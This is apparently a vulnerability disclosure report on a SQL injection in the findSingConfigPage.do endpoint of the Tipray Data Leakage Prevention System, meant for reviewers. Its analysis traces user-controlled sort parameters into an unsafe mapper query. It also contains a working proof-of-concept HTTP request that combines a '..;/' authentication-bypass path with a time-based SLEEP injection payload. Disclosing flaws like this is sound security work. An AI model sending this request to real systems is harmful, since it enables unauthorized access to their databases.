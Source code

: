 # SQL Injection Vulnerability in the findSingConfigPage.do Interface of Tipray Data Leakage Prevention System

## Basic Overview
We have already learned about some basic information of the system developer and the reasons for authentication bypass in https://github.com/FightingLzn9/vul/blob/main/%E5%A4%A9%E9%94%90%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9F-1.md.

To reduce your review burden, we will not repeat the details in this report.

## Vulnerability Analysis
We identified a sink point in `com.trwfe.controller.ThirdSystemConfigController#findRolePage`.

Based on the analysis in the first report, we know that the `PageVo` class is insecure, and **all its parameters are controllable by users**.

<img width="1215" height="410" alt="image" src="https://github.com/user-attachments/assets/7d97fff1-95fe-4376-9c96-b9a89a595325" />

We continue to trace the `findAllSingConfigPage` method here.

Eventually, we can reach the mapper layer. Here, the `${` syntax is used, and the internal parameters are controllable—this leads to SQL injection.
<img width="1981" height="540" alt="image" src="https://github.com/user-attachments/assets/605e3b18-80c1-495f-9838-4d2c3fd076fc" />

Based on this, the following Proof of Concept (PoC) can be constructed:
```
POST http://ip/trwfe/login.jsp/..;/thirdSystemConfig/findSingConfigPage.do HTTP/1.1
Host:ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=BBE157F1DBA868496A6CB76724EA3D28
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

sort=1+AND+(SELECT+1087+FROM+(SELECT(SLEEP(3)))JYfg)
```
<img width="1876" height="820" alt="image" src="https://github.com/user-attachments/assets/ac95a9e0-7f9f-4f4d-a778-ed6efb51a917" />

The request successfully caused a delay, confirming that the `findSingConfigPage.do` interface has an SQL injection vulnerability.

Thank you for your review. Wish you a pleasant day!

